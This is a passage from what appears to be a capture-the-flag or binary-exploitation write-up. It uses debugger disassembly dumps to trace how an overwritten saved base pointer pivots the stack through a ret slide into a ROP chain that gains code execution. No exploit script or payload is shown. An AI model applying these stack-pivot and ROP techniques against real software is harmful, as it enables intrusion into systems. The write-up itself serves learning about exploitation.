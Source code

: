 So we can see that the saved base pointer has been overwritten to `0x7fff383d4c00` which will cause the instruction address at `0x7fff383d4c08` to be executed with the second `ret`, which will be one of the gadgets for the ret slide. When it returns, we can see it starts off with the `leave/ret` instructions at `0x400c44`:

```
──────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400bca                  call   0x40ffb0
     0x400bcf                  nop    
     0x400bd0                  leave  
 →   0x400bd1                  ret    
   ↳    0x400c44                  leave  
        0x400c45                  ret    
        0x400c46                  push   rbp
        0x400c47                  mov    rbp, rsp
        0x400c4a                  sub    rsp, 0x10
        0x400c4e                  mov    DWORD PTR [rbp-0x4], edi
──────────────────────────────────────────────────────────────────────────────────────── threads ────
```

Proceeding that we can see that the ret instructions that are part of our retslide that are executed:

```
──────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400c39                  or     cl, BYTE PTR [rbx-0x387603bb]
     0x400c3f                  call   0x400b73
     0x400c44                  leave  
 →   0x400c45                  ret    
   ↳    0x400416                  ret    
        0x400417                  add    bh, bh
        0x400419                  and    eax, 0x2b8bfa
        0x40041e                  xchg   ax, ax
        0x400420                  jmp    QWORD PTR [rip+0x2b8bfa]        # 0x6b9020
        0x400426                  xchg   ax, ax
──────────────────────────────────────────────────────────────────────────────────────── threads ────
```

After that we can see the beginning of our ROP chain is executed, which gives us code execution:


```
──────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
 →   0x415f04                  pop    rax
     0x415f05                  ret    
     0x415f06                  (bad)  
     0x415f07                  inc    DWORD PTR [rbx-0x6bf00008]
     0x415f0d                  rol    BYTE PTR [rax+rax*8-0x74b7458b], 0x53
     0x415f15                  sub    cl, ch
──────────────────────────────────────────────────────────────────────────────────────── threads ────
```
